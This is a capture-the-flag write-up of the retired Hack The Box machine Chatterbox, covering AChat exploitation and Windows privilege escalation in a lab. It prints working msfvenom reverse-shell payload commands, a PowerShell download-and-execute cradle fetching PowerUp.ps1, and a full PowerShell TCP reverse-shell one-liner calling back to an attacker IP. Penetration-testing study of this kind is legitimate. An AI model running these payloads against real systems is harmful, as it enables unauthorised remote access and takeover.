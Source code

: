 ```yaml
---
layout: single
title: HackTheBox - Chatterbox Writeup
date: 2019-11-26
classes: wide
header:
  teaser: /assets/images/HTB.png
tags:
  - HackTheBox
  - Penetration Testing
--- 
```


This is a writeup for the retired [Hack The Box]( https://www.hackthebox.eu/) machine Chatterbox. I decided to do a writeup on this machine because it appears on TJNull's list of [“OSCP-like boxes”]( https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159) and I agree it is on par with something one would find in the PWK labs.



## Enumeration
After pinging the box to ensure connectivity, I conducted an all-port scan with nmap using the `-p-` flag. This returned two open ports but my preliminary nmap scan was unable to identify the services behind them. From there, I launched a targeted port scan of these two ports, specifying the `-sV` flag to enable version detection. 

![](/assets/images/HTB/Chatterbox/Chatterbox1.png)
*Figure 1. Completed Nmap Scan*

**Note:** I would normally use [AutoRecon](https://github.com/Tib3rius/AutoRecon) to conduct these scans; however, having done this box before I knew such intense recon would take an extremely long time.

As shown above in Figure 1, nmap identified two services related to a program called AChat. First appears to be the AChat HTTP Daemon running on port 9255, second appears to be the AChat service on port 9256. However, manually visiting these ports in FireFox yielded no additional information.

## Initial Foothold
Using `Searchsploit` I quickly browsed the Exploit-DB database to see if any results existed for an AChat service. 

![](/assets/images/HTB/Chatterbox/Chatterbox2.png)
*Figure 2. Searchsploit Results for ‘AChat’*

Immediately I find two very promising publically available exploits for AChat. While a Metasploit module exists, I opted to download the Python version of this exploit using the Searchsploit flag `-m` followed by the exploit number.

Within the exploit, there was an example MSFvenom command that would pop open the Windows Calculator app upon successful completion. I modified this shellcode slightly to instead trigger a reverse shell connection back to our attacker machine.

```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.57 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

The resulting shellcode from this command can then be pasted into the exploit. Additionally, the hardcoded IP must be changed to match the victim’s IP. Finally, I set up my netcat listening on port 443 and launched the exploit with Python.


![](/assets/images/HTB/Chatterbox/Chatterbox3.png)
*Figure 3. Successful Reverse Shell Connection as User Alfred*

As shown in Figure 3, the exploit succeeded and our netcat listener received a reverse connection from the victim machine. 

## Privilege Escalation
After obtaining the user flag from Alfred’s desktop, I began looking for potential privilege escalation routes. First, I manually navigated to `C:\Windows\System32\WindowsPowerShell` to confirm the existence of Powershell on this machine.

Next, I launched a Python webserver on my attacker machine with the command `python -m SimpleHTTPServer 80` in order to facilitate the easy transfer of post-exploitation scripts.

Finally I executed the following command to download and run [Powerup.ps1]( https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) on the victim machine. 

```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.14.57/powerup.ps1'))"
```

![](/assets/images/HTB/Chatterbox/Chatterbox4.png)
*Figure 4. Stored AutoLogon Credentials*

For this next part, I upgraded the regular reverse shell to a Powershell reverse shell with the following command and another netcat listerner.

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.57',442);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](/assets/images/HTB/Chatterbox/Chatterbox5.png)
*Figure 5. Powershell Reverse Shell Connection*

Next, I generated a reverse shell .exe file using MSFvenom and transferred this file over to the box using Powershell.

`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.57 lport=444 -f exe > shell.exe`

Finally, using Powershell I assigned the previously found credientials to the variable `$credential` and executed this new shell as the user Administrator. The syntax for this is shown below in Figure 6. 

![](/assets/images/HTB/Chatterbox/Chatterbox6.png)
*Figure 6. Create $Credential Variable & Execute New Reverse Shell*

![](/assets/images/HTB/Chatterbox/Chatterbox7.png)
*Figure 7. Reverse Shell Connection as Administrator!*

In conclusion, I think this is a fantastic box and extremely similar to what would be expected of someone in the PWK labs.    


![Hits](https://hitcounter.pythonanywhere.com/count/tag.svg?url=https%3A%2F%2Fcinzinga.github.io%2FHTB-Chatterbox%2F)

